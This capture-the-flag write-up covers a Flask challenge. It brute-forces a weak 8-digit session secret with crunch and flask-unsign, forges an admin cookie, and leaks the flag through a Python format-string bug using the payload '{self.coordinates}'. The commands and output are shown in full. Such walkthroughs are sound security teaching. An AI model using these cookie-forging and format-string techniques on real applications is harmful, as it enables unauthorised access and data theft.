


# Find The Compass
> Author : Mika - @bWlrYQ

## "Recon"

We're given the app's source code. By exploring the `__init__.py` we spot that the secret used to sign session cookies is generated through a "homemade" function which is usually a very bad sign.

```py
def generate_key() -> str:
    """Generate a random key for the Flask secret (I love Python!)"""
    return (''.join([str(x) for x in [(int(x) ^ (int(time()) % 2 ^ randint(0, 2))) for x in [int(char) for char in str(digits[randint(0, 9)]) * 4]]])).rjust(8, '0')   
```

By either analysing the code or printing a large number of time the result of this function, we get that it's an 8 digits max secret that's padded with 0's when the returned code's length is inferiour to 8. This is insecure because 8 digits code are 10 million possibilities which makes it bruteforceable. 

In order to bruteforce the secret we need a token, good point for us the app sets one as soon as you request the web server using the before_request Flask decorator :

```py
@app.before_request
def before_request():
    if not session.get('status'):
        session['status'] = 'guest'
    if not session.get('logged_in'):
        session['logged_in'] = False
    session['nonce'] = token_hex(32)
```

## Cookie crafting

We can retrieve a token, here I got `.eJwNzLsNhDAQBcBeNiaw13-aQQ_vYiEhE9hE6Ho_poB56bpbU9nOTuuBa-hC_e5VaSWzs7rsIyQUhBrUZvgdrEgo2al1zCKHxmSsk8Aw0VdORcBsOGVaaEzMZ3xXe3RM-v0BbschJA.ZeR-Cg.i999Fzi_ke7HdQwGze-NhZDC6lU`

Using `flask-unsign` and `crunch` we can generate a wordlist and then bruteforce the token's secret.

```
╰─λ crunch 8 8 -t %%%%%%%% -o wordlist.txt
Crunch will now generate the following amount of data: 900000000 bytes
858 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100000000 

crunch:  56% completed generating output

crunch: 100% completed generating output
╰─λ head wordlist.txt && tail wordlist.txt
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
99999990
99999991
99999992
99999993
99999994
99999995
99999996
99999997
99999998
99999999
```

```
╰─λ flask-unsign --unsign --cookie '.eJwNzLsNhDAQBcBeNiaw13-aQQ_vYiEhE9hE6Ho_poB56bpbU9nOTuuBa-hC_e5VaSWzs7rsIyQUhBrUZvgdrEgo2al1zCKHxmSsk8Aw0VdORcBsOGVaaEzMZ3xXe3RM-v0BbschJA.ZeR-Cg.i999Fzi ke7HdQwGze-NhZDC6lU' --wordlist ./wordlist.txt --no-literal-eval
[*] Session decodes to: {'logged_in': False, 'nonce': '0b2e3846ad59a5c5e18a4ba2ea7a983e1322ddfe67013d52a064c279da220278', 'status': 'guest'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 6784 attempts
b'00006666'
```

The secret is `00006666`. Using this value let's craft a new cookie that will allow us to login (be careful, by checking the login function, it sets the status, logged_in to True and the username :))

```
╰─λ flask-unsign --secret '00006666' --sign --cookie '{"nonce":"aaaa", "status": "admin", "username": "admin", "logged_in": True}'
.eJyrVsrLz0tOVbJSSgQCJR2l4pLEktJiED8lNzMPKFBanFqUl5ibiiSUk5-enpoSD2RblRSVptYCABucF1Y.ZeR_Ww.KiwTMj54DnHVy5jvxPN2X47egfA
```

By adding this cookie to our browser, we get access to a panel that allows us to add reminders.



## Format String 

Before going further, as we have the source code, let's check what we could do and if there are any spottable vulnerabilities. First thing that should catch our attention is in utils.py: 

```py
COMPASS = {
    # Here are the coordinates of the compass.
    'COORDINATES': open('flag.txt', 'r').read()
}
```

So the coordinates of the stolen compass are stored in a COMPASS dictionnary. We need to access the value of this compass dict, this can be done through various ways, RCE, SSTI or FormatString :). Going through the source code, the "panel" route is intereting: 

```py
@app.route('/panel', methods=['GET'])
def panel():
    if not authorized():
        return redirect(url_for('index'))
    reminders = Reminder.query.all()
    reminders_list = []
    # If a wise admin needs the coordinates of the compass, he can retrieve them.
    renderer = Renderer(COMPASS['COORDINATES'])
    for reminder in reminders:
        reminders_list.append([reminder.id, renderer.render(reminder.author.username , reminder.content)])
    return render_template('panel.html', reminders=reminders_list)
```

When listing the reminders, a "Renderer" object is created and we pass the value of the flag to the constructor. This behaviour is very unexpected, the comment tells us that only a wise admin needing the coordinates can retrieve them. Lets give a look the class that managed the Reminder object.

```py
from html import escape

class Renderer(object):
    """
    Proof of Concept to one day get rid of Jinja2. Who needs Jinja2 ?
    """
    def __init__(self, coordinates: str):
        # Only a wise administrator can retrieve the coordinates of the compass.
        self.coordinates = coordinates

    def render(self, author, content):
        author = escape(author)
        content = escape(content)
        htmlTemplate = f"<p><strong>{author}</strong>: {content}</p>"
        try:
            #Use escape for XSS protection
            return (htmlTemplate.format(self=self))
        except Exception as e:
            print(e)
            return "An error occured while rendering the reminder."
```

So this class renders the content of a reminder to HTML by using the escape function, the thing is we have "format" that's called twice on the user input. Once in `htmlTemplate` with the use of the `f"<string>"` and then at the return statement using `.format(self=self)`.

This allows any user that inputs a reminder to see its input rendered. Using the `self` keyword we can retrieve the flag with the following payload `{self.coordinates}` (as the coordinates have been set in the constructor of the object).

